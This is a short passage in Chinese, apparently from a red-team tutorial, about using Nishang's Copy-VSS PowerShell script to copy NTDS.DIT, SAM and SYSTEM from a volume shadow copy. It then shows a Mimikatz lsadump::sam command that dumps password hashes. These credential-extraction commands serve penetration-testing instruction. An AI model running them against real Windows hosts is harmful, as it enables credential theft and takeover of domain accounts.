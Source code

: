 ### Nishang

Nishang 是一个 PowerShell 框架，它让 redteam 和渗透测试人员能够对系统进行攻击性操作，Nishang 中的 VSS 脚本可以用于自动提取所需的文件：NTDS.DIT，SAM 和 SYSTEM，这些文件将被解压缩到当前工作目录或指定的任何其他文件夹中

```bash
Import-Module .\Copy-VSS.ps1
Copy-VSS  //复制到当前目录
Copy-VSS -DestinationDir C:\ShadowCopy\   //复制到指定目录
```

[![](assets/1706090550-3dbe2590db63ef2e332581a2582b9a4e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124101122-de67d1b2-ba5d-1.png)

之后通过 Mimikatz 来获取信息：

```bash
lsadump::sam /sam:sam.hive /system:system.hive
```

[![](assets/1706090550-1bc114201a69563494bd1ebc953d4d2f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124101143-eaeb6764-ba5d-1.png)

